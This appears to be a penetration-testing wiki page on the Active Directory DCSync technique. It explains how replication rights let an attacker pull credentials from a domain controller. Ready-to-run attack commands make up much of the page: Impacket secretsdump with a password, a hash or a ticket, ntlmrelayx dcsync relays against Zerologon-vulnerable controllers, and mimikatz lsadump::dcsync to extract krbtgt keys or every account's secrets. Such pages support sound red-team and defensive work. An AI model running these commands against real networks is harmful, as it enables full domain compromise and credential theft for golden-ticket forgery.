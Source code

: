 ## Theory
DCSync is a technique that uses Windows Domain Controller's API to simulate the replication process from a remote domain controller. This attack can lead to the compromise of major credential material such as the Kerberos `krbtgt` keys used legitimately for tickets creation, but also for tickets forging by attackers. The consequences of this attack are similar to an `NTDS.dit` dump and parsing but the practical aspect differ. A DCSync is not a simple copy & parse of the NTDS.dit file, it's a `DsGetNCChanges` operation transported in an RPC request to the `DRSUAPI` (Directory Replication Service API) to replicate data (including credentials) from a domain controller.
This attack requires domain admin privileges to succeed (more specifically, it needs the following extended privileges: `DS-Replication-Get-Changes(GUID:1131f6aa-9c07-11d1-f79f-00c04fc2dcd2)` and `DS-Replication-Get-Changes-All(GUID:1131f6ad-9c07-11d1-f79f-00c04fc2dcd2 )`. Members of the Administrators, Domain Admins, Enterprise Admins, and Domain Controllers groups have these privileges by default. In some cases, over-privileged accounts can be abused to grant controlled objects the right to DCSync
!!! note
    A setting exists in the account policy or when creating users telling the domain controller to store the user's password using reversible encryption instead of irreversible hashing. This allows attackers to retrieve the passwords in clear-text.
## DCSync
=== "UNIX-like"
    On UNIX-like systems, this attack can be carried out with Impacket's secretsdump which has the ability to run this attack on an elevated context obtained through plaintext password stuffing, pass-the-hash or pass-the-ticket
    ```bash
    # using a plaintext password
    secretsdump -outputfile 'something' 'DOMAIN'/'USER':'PASSWORD'@'DOMAINCONTROLLER'

    # with Pass-the-Hash
    secretsdump -outputfile 'something' -hashes 'LMhash':'NThash' 'DOMAIN'/'USER'@'DOMAINCONTROLLER'

    # with Pass-the-Ticket
    secretsdump -k -outputfile 'something' 'DOMAIN'/'USER'@'DOMAINCONTROLLER'
    ```
    The secretsdump script creates the following files.

    | **File**      | **Content**                                                   |
    |---------------|---------------------------------------------------------------|
    | `.ntds`       | LM and NT password hashes                                     |
    | `.cleartext`  | Passwords stored using reversible encryption                  |
    | `.kerberos`   | Kerberos keys (DES, AES128, and AES256)                       |
    | `.sam`        | Domain controller's SAM secrets                               |
    | `.secrets`    | Domain controller's LSA secrets                               |

    This attack can also be operated with a `relayed NTLM authentication`, but only if the target domain controller is vulnerable to `Zerologon` since the DRSUAPI always requires signing.
    ```bash
    # target vulnerable to Zerologon, dump DC's secrets only
    ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER'

    # target vulnerable to Zerologon, dump Domain's secrets
    ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER' -auth-smb 'DOMAIN'/'LOW_PRIV_USER':'PASSWORD'
    ```
=== "Windows"
    On Windows, mimikatz (C) can be used `lsadump::dcsync` to operate a DCSync and recover the krbtgt keys for a golden ticket attack for example. For this attack to work, the following mimikatz command should run in an elevated context (i.e. through runas with plaintext password, pass-the-hash or pass-the-ticket).
    ```bash
    # Extract a specific user, in this case the krbtgt
    lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt

    # Dump everything (printed in a short and readable format)
    lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /all /csv
    ```
!!! note
    For an undocumented reason, Impacket's secretsdump relies on SMB before doing a DCSync (hence requiring a CIFS/domaincontroller SPN when using Kerberos tickets) while Mimikatz relies on LDAP before doing the DCSync (hence requiring a LDAP/domaincontroller SPN when using Kerberos tickets)